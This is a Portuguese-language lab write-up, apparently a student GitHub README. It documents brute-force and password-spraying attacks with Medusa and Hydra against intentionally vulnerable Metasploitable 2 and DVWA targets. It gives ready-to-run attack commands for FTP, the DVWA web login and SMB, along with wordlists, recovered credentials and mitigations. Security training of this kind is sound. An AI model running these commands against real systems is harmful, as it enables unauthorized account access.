










# Desafio Prático – Ataques de Força Bruta com Kali Linux e Medusa

> ⚠️ **Aviso Legal**: Todas as atividades descritas neste projeto foram realizadas **exclusivamente em ambiente controlado de laboratório**, com máquinas intencionalmente vulneráveis. Nenhuma técnica aqui apresentada deve ser utilizada sem autorização explícita.

---

## 📌 Objetivo do Projeto

Demonstrar, de forma prática e documentada, o funcionamento de ataques de força bruta e *password spraying* em diferentes serviços, utilizando o **Kali Linux** e ferramentas como **Medusa** e **Hydra**, além de propor **medidas de mitigação**.

O projeto tem como foco o aprendizado em:

* Força bruta em serviços de rede (FTP e SMB);
* Ataques automatizados em aplicações web (DVWA);
* Uso do Kali Linux para auditoria de segurança;
* Documentação técnica para portfólio profissional.

---

## 🧪 Ambiente de Testes

* **Hipervisor:** VirtualBox
* **Sistema Atacante:** Kali Linux
* **Sistema Alvo:** Metasploitable 2 + DVWA
* **Modo de Rede:** Host-only Adapter (vboxnet0)

### Endereçamento IP

* Kali Linux: `192.168.56.X`
* Metasploitable 2: `192.168.56.101`

---

## 🔍 Enumeração Inicial

Antes dos ataques, foi realizada enumeração de portas com o Nmap:

```bash
nmap -sV 192.168.56.101
```

Serviços relevantes identificados:

* FTP (21)
* HTTP (80)
* SMB (139 / 445)

---

## 🔐 Ataque 1 – Força Bruta em FTP (Medusa)

Foi realizado um ataque de força bruta no serviço FTP utilizando o Medusa.

**Wordlist utilizada:**

```
admin
msfadmin
123456
password
```

**Comando executado:**

```bash
medusa -h 192.168.56.101 -u msfadmin -P wordlists/ftp_password.txt -M ftp
```

**Resultado:**

* Usuário válido: `msfadmin`
* Senha: `msfadmin`

O sucesso do ataque indica o uso de credenciais fracas no serviço FTP.

---

## 🌐 Ataque 2 – Força Bruta em Aplicação Web (DVWA)

Devido à indisponibilidade do módulo `http-form` no Medusa, foi utilizada a ferramenta **Hydra** para realizar o ataque de força bruta no formulário de login do DVWA.

**Comando executado:**

```bash
hydra -l admin -P wordlists/web_password.txt 192.168.56.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^:Login failed"
```

**Resultados encontrados:**

* admin : 123456
* admin : admin
* admin : password
* admin : dvwa

Este resultado demonstra a ausência de políticas de senha e proteção contra tentativas repetidas de login.

---

## 🗂️ Ataque 3 – SMB Password Spraying (Medusa)

Foi realizado um ataque de **password spraying** no serviço SMB, testando uma senha comum contra múltiplos usuários.

**Lista de usuários:**

```
root
msfadmin
user
admin
```

**Comando executado:**

```bash
medusa -h 192.168.56.101 -U wordlists/users.txt -p msfadmin -M smbnt
```

**Resultado:**

* Usuário válido: `msfadmin`
* Senha: `msfadmin`
* Acesso administrativo confirmado (`ADMIN$ - Access Allowed`)

Este resultado evidencia uma vulnerabilidade crítica no serviço SMB.

---

## 🛡️ Medidas de Mitigação

Recomendações para reduzir os riscos identificados:

* Implementar políticas de senhas fortes;
* Bloquear contas após múltiplas tentativas inválidas;
* Desabilitar serviços desnecessários;
* Desabilitar SMBv1;
* Restringir acesso via firewall;
* Monitorar e auditar logs de autenticação;
* Aplicar o princípio do menor privilégio.

---

## 📁 Estrutura do Repositório

```
📦 projeto-medusa-kali
 ┣ 📂 images
 ┃ ┣ ftp_medusa.png
 ┃ ┣ web_hydra.png
 ┃ ┗ smb_medusa.png
 ┣ 📂 wordlists
 ┃ ┣ ftp_password.txt
 ┃ ┣ web_password.txt
 ┃ ┗ users.txt
 ┗ README.md
```

---

## ✅ Conclusão

Este projeto demonstrou, de forma prática, como ataques de força bruta podem comprometer serviços mal configurados. A atividade reforça a importância de boas práticas de segurança, tanto em ambientes corporativos quanto acadêmicos.

O laboratório contribuiu significativamente para o desenvolvimento de habilidades em **cibersegurança ofensiva**, análise de vulnerabilidades e documentação técnica.

## 📌 Evidências Técnicas

---

## 🔍 Varredura de Rede — Nmap

Identificação dos serviços ativos no host alvo, incluindo portas FTP, HTTP e SMB.



---

## 📂 Ataque ao Serviço FTP — Medusa

Ataque de força bruta realizado no serviço FTP utilizando a ferramenta Medusa, resultando na descoberta de credenciais válidas.

**Evidências:**
- Tentativas de autenticação
- Credencial válida encontrada




---

## 🌐 Ataque à Aplicação Web (DVWA) — Hydra

Ataque de força bruta ao formulário de login da aplicação DVWA utilizando a ferramenta Hydra.

**Evidências:**
- Envio automatizado de credenciais
- Logins válidos identificados




---

## 🗄️ Ataque ao Serviço SMB — Medusa

Enumeração de usuários e tentativa de autenticação no serviço SMB, com acesso autorizado identificado.

**Evidências:**
- Teste de múltiplos usuários
- Acesso permitido ao compartilhamento ADMIN$








